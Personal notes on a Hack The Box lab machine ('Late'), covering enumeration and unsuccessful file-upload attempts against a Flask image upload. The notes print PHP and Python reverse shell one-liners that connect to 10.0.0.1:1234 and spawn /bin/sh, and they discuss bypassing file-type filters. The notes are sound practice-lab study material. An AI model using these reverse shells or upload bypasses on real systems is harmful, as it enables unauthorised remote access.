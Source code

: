 # RELEASE ARENA

# Enumeration

## nmap 
`nmap -sV -A -v 10.129.48.251` returned:
![[Screenshot 2022-04-25 at 07.21.24.png]]
I believe the _GET HEAD_ header option can be interesting..

running a UDP scan:
![[Screenshot 2022-04-26 at 07.23.10.png]]
## curl
`curl -X GET HEAD http://late.htb -i
found __"http://images.late.htb/ __ in the curl results -> given us a subdomain 

## http
headroom.js --> different functions of [headers](https://wicky.nillia.ms/headroom.js/) 
FLASK + FILE UPLOAD
Looking at the bottom of the page, there's a link to who designed the website: A _Kavi.gihan_. this could help give us a user account of sorts..

## gobuster
![[Screenshot 2022-04-25 at 19.28.31.png]]
A quite strange gobuster scan result...

_/contacts.html_ and /assets/ were the only ones found.

# Foothold
## file upload
Trying to use the php reverse shell from pentestmonkey, uploading it with the .jpg file extension did not work and this error message showed:
![[Screenshot 2022-04-25 at 11.10.15.png]]

Using a [text to image converter](https://smallseotools.com/text-to-image/) I tried uploading a nc reverse shell. The results.txt file showed that the text was clearly read and saved as a paragraph in some html code:
![[Screenshot 2022-04-26 at 09.51.32.png]]. Problem is, this does not really get executed..
Then I remembered it is written with flask, so I proceeded to try both the PHP and Python oneliners:
`php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`
`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

### burp
I tried changing `image/jpeg` to `image/jpg`, `txt/jpg`, `txt/jpeg` but this did not work. 
That being said, the POST form looked like so:
![[Screenshot 2022-04-25 at 11.23.58.png]]
_WITH_ the reverse shell file it looked like this:
![[Screenshot 2022-04-25 at 11.25.01.png]]. It is clear that the application 'recognises' (or at least tries to) the file type..
Changing the extension to JPEG returned an _Invalid Extension_ error message, so it is clear they want jpg.
`<input type="file" name="file" class="custom-file-input" id="inputGroupFile01" aria-describedby="inputGroupFileAddon01" accept="image/*">` is the html code for the input form.
![[Screenshot 2022-04-25 at 11.36.06.png]]

What I noticed is, every time I try to upload the files, the extension code changes. I.E:  '/home/svc_acc/app/uploads/php-reverse-shell.php.jpg6645' --> the last part has random numbers attached. But this also tells me there is a server somewhere with a file system.  '/home/svc_acc/app/uploads/pic.jpg4289'.

Trying to upload an actual jpeg, I see that the starter text code is `ÿØÿàJFIF`[PNG begins with `PNG`]. Uploadin this gave me a file _results.txt_! This returns the website that I found the picture on and its ID - for JPEG files, and the name from PNG.

### source code
`<!-- Social links. @TODO: replace by link/instructions in template -->` this could mean there is something with the template

## SSH
It looks like its supported, but dont really have a hint on a user yet
# Exploit
# Privesc

# Flags
# Thoughts
- `ETag: "624af46d-24f5"` could indicate that thre are older versions --> might be some forgotten credentials on these
- upload an image (might be filtering for jpg/jpeg/etc) so use a reverse shell from pentestmonkey but make it one of those file extensions.
- upload image with the reverse shell code appended to the end? Edit in burp
- The numbers added to the end, shows all the files are uploaded to a server, but if theyre 'invalid' they will be stored with random numbers on the back --> HOW TO BYPASS THIS?
- create image with payload? 
- executing commands as a shell
- creating a python server?
- 
# New Things Learnt
- file filtering [bypass](https://infosecwriteups.com/bypassed-and-uploaded-a-sweet-reverse-shell-d15e1bbf5836)
- upload [vulnerabilities](https://www.onsecurity.io/blog/file-upload-checklist/)


# helpful writeups (?)
- https://infosecwriteups.com/htb-passage-writeup-172490d4045e
